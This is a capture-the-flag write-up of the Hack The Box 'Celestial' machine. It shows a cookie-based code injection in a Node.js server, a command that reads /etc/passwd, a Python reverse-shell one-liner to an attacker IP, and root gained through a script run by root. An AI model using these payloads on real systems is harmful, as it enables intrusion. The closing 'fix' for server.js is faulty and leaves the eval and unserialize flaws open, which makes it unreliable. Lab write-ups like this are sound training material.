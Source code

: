 ```yaml
---
title: HTB Celestial Writeup
date: 2025-05-10
categories: [CTF, HTB]
tags: [CTF, HTB, Medium]
description: HTB Celestial Writeup
---
```

# Recon
## Nmap
```bash
nmap -Pn -v -p- -sV --min-rate 1000 celestial.htb -oN celestial_nmap.txt
```

```
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
```

# Initial Foothold and User.txt
Main page shows the text "404" on first visit. On subsequent visits the following text is shown.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_1.png)

Examining the HTTP header shows a base64 encoded cookie value
![Screenshot](/assets/img/celestial-writeup-screenshot/image_2.png)

![Screenshot](/assets/img/celestial-writeup-screenshot/image_3.png)

2 of the JSON attributes seems to be reflected on the main page
- username
- num

The num parameter seems to be concatenated. This is tested by setting num to 3.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_4.png)

The server seems to be using templates to reflect these 2 value. By trying the common payload for Server-side Template Injection "\{7\*7\}", the server evaluated the multiplication provided and printed 49.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_5.png)

This proves that SSTI is possible. As an attempt to determine the exact backend framework and template engine used, an error was triggered which returned verbose error message.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_6.png)
The error message
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token }<br> &nbsp; &nbsp;at /home/sun/server.js:13:29<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/sun/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)</pre>
</body>
</html>
```

From this we can see that:
- The server is running Express Node.js web framework
- There is a user "sun"
However, it still doesn't show what template engine is used.

A script was made to try perform fuzzing on the num parameter and see if any special characters will trigger the same syntax error. The following is the result:
```
-
.
""
{}
/
```

Also some global variables seems to return valid results (e.g. global).
![Screenshot](/assets/img/celestial-writeup-screenshot/image_7.png)

Through more googling, the following payload from HackTricks worked, which is intended for the template engine Jade.
```javascript
root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout
```
Source: https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#jade-nodejs

Output:
![Screenshot](/assets/img/celestial-writeup-screenshot/image_8.png)

It was found to be quite difficult to just run a one-line command for reverse shell execution (escaping quotes are painful). So from here the following steps were done to obtain a reverse shell:
1. Confirm that python3 is installed on the server (which python3)
2. Use revshells.com to create a python reverse shell
3. Issue a command to the server to download the reverse shell
4. Listen on port 443 (on attacker machine)
5. Execute the python reverse shell payload downloaded

Payload used:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.73",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

![Screenshot](/assets/img/celestial-writeup-screenshot/image_9.png)

user.txt at /home/sun/user.txt
# Root.txt
On the user's home directory, there was one file that stood out as it seems to be written by root.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_10.png)

There is also another python script that seems to print out the exact words
![Screenshot](/assets/img/celestial-writeup-screenshot/image_11.png)

To do a simple test to check if the script.py was indeed running by root as a background process, the script.py was modified to print out something different
```
print "No it's not running..."
```

After 5 minutes, the output.txt file changed to the modified content
![Screenshot](/assets/img/celestial-writeup-screenshot/image_12.png)
After the first execution, the process is also shown when listing running processes. This shows that the script is indeed ran by root.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_13.png)

By using the same python3 reverse shell payload used during initial access (changing connection port to 445), a reverse shell was obtained running as root.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_14.png)

# Just for Fun
## Try to fix vulnerable server.js script
The following is the content of server.js which is the main script of the web server (in /home/sun/server.js).
```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

We can see that the vulnerability lies in  ```var sum = eval(obj.num + obj.num);```, where the user input ```obj.num``` is directly evaluated without any sanitation.

The most straightforward way to fix it is to check for the bracket characters ```{``` and ```}``` and prevent them from passing to ```eval()```

```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username && obj.num.indexOf("{") == 0 && obj.num.indexOf("}") == 0) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

